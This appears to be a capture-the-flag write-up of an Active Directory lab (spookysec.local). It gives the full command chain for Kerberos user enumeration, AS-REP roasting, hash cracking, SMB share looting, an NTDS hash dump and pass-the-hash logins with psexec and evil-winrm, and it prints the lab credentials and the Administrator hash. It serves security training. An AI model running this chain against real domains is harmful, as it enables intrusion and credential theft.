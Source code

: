 1. Nmap shows port 88 which kerberos service running.
2. We will enumerate the username list provided in the task for the valid usernames with the help of kerberos service on the system.
```
kerbrute userenum -d DOMAIN_NAME --dc DOMAIN_CONTROLLER_IP -o user_wordlists.txt
```

3. Now we have a list of valid usernames returned from the above command. We will check for the possible ASREP roastable account. 
```
impacket-GetNPUsers -dc-ip <Target_IP> <Target_Domain>/ -usersfile <the_selected_users_list> 
```
4. Crack the krb hash with with john or hashcat
```
hashcat -a 0 -m 18200 hash password.txt # -a straight mode

john --wordlist=password.txt hash
```
5. Now we have 1 valid credentials pair which we can use to enumerate smb.
```
smbclient -L //10.10.253.224 -U svc-admin%management2005

nxc smb 10.10.253.224 -u svc-admin -p management2005 --shares

smbmap -H 10.10.253.224 -u svc-admin -p management2005
```
6. We can see a non standard share name backup with read permission.
7. Found a backup file with creds of the backup user.
```
cat backup_credentials.txt
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

Cracked the text with cyberchef and got the crdes.
> backup@spookysec.local:backup2517860	
```
8.  As mentioned on the task the backup user has special permission to sync the changes on the backup. Also we found the user is part of local administrator group by login via RDP.
9. Used the impacket-secretsdump to dump the ntds.dit hashes of all users. Where we got the administrator NTLM hash.
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
```
10. Used the hash for pass the hash to login with psexec or evil-winrm.
```
impacket-psexec spookysec.local/administrator@10.10.253.224 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc

evil-winrm -i 10.10.253.224 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```

![[Pasted image 20241202151005.png]]

![[Pasted image 20241202151038.png]]
